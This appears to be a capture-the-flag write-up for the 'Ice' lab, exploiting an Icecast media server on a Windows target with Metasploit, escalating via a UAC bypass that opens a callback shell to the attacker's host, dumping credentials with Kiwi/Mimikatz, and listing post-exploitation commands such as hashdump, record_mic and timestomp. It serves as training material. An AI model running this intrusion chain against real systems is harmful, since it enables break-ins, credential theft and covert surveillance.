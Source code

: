 # Ice
# [cd ../](../index.md)
> Deploy & hack into a Windows machine, exploiting a very poorly secured media server.

# Start
## Scanning
### Nmap
[nmaps](nmaps.txt)  
There is an interesting port open on 3389. This is Microsoft Remote Desktop (MSRDP).
And an other on 8000 (Icecast).  
And we found one [exploit](https://www.cvedetails.com/cve/CVE-2004-1561/) that we have to use.

## Exploiting
- Open Metasploit
- Select the correct exploit
- Use it :D

```
msfconsole
search icecast
use exploit/windows/http/icecast_header
set RHOSTS 10.10.194.155
exploit
```
- We got a `meterpreter` shell
- We are user:`dark`

## Escalate privileges
- We are on an `x86` system
- Just run an exploit suggester like a *1337 ScR1P7 K1DD0*

```
run post/multi/recon/local_exploit_suggester
```

This takes some time to run so go for a snack :D  
Finally we got some exploits!  
![exploits](exploits.png)
- We need `exploit/windows/local/bypassuac_eventvwr`
- Now background the meterpreter shell with `background` command
- Select the exploit and set it up

```
use exploit/windows/local/bypassuac_eventvwr
set session 1
set LHOST 10.8.22.204
set LPORT 1337
exploit
```
- It could fail some times so just retry xd  
![session2](session2.png)  
- Migrate to an x64 process ( `spoolsv.exe` )

```
ps
migrate 1392
```
![migrated](migrated.png)  
- If we check `getuid` we are `NT AUTHORITY\SYSTEM` now!!  
W3 4r3 4dM1N5 N0W

## Mimikatz etc
```
load kiwi
```
Kiwi is the updated mimikatz.  
If we hit `help` we can see some new `Kiwi Commands`!
```
creds_all
```
![creds](creds.png)  
Dark's password is `Password01!`  

## Post exploitation
`hashdump` - dumps all of the password hashes  
`screenshare` - allows us to watch the remote user's desktop in real time  
`record_mic` - record from a microphone attached to the system  
`timestomp` - modify timestamps of files on the system  
`golden_ticket_create` - allowing us to authenticate anywhere with ease  
`run post/windows/manage/enable_rdp` - As we have the password for the user 'Dark' we can now authenticate to the machine and access it via remote desktop (MSRDP)  
